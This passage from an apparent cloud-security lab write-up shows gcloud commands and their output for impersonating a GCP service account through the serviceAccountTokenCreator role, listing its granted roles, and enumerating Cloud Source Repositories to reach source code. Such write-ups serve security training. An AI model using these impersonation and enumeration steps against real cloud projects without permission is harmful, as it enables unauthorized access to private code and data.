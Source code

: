 
We see that the `intermediate-account-dev-team` service account has an IAM policy attached that allows our current `internal-web-dev-team` service account to create tokens for it with the `serviceAccountTokenCreator` role. 

This means we can impersonate the service account using the following command:
```
└─$ gcloud config set auth/impersonate_service_account intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com
Updated property [auth/impersonate_service_account].

```

> It's good to `UNSET` an impersonation configuration at the end of the lab, or we can be met with gcloud complaints in other labs.
{: .prompt-info }
```
gcloud config unset auth/impersonate_service_account
```
Validate the impersonation
```
└─$ gcloud config list
[auth]
impersonate_service_account = intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com
[core]
account = internal-web-dev-team@gr-proj-1.iam.gserviceaccount.com
disable_usage_reporting = True
project = gr-proj-1

Your active configuration is: [default]
```

Retrieve the roles assigned to our impersonated user using the following command:
```
└─$ gcloud projects get-iam-policy gr-proj-1 --flatten="bindings[].members" --filter="bindings.members=serviceaccount:intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com" --format="value(bindings.role)"
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
ROLE                   MEMBERS
roles/cloudsql.viewer  serviceAccount:intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com
roles/iam.roleViewer   serviceAccount:intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com
roles/source.reader    serviceAccount:intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com

```

We see that they are assigned the roles `source.reader` and `cloudsql.viewer` (same as we saw in visualization). 

The `source.reader` role allows accessing and reading repositories within Google Cloud Source Repositories. This could help us view and retrieve potentially sensitive source code from repositories in the GCP Cloud. Let's list repositories in Google Cloud Source Repositories
```
└─$ gcloud source repos list --project=gr-proj-1
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
WARNING: This command is using service account impersonation. All API calls will be executed as [intermediate-account-dev-team@gr-proj-1.iam.gserviceaccount.com].
REPO_NAME    PROJECT_ID  URL
guides-docs  gr-proj-1   https://source.developers.google.com/p/gr-proj-1/r/guides-docs

```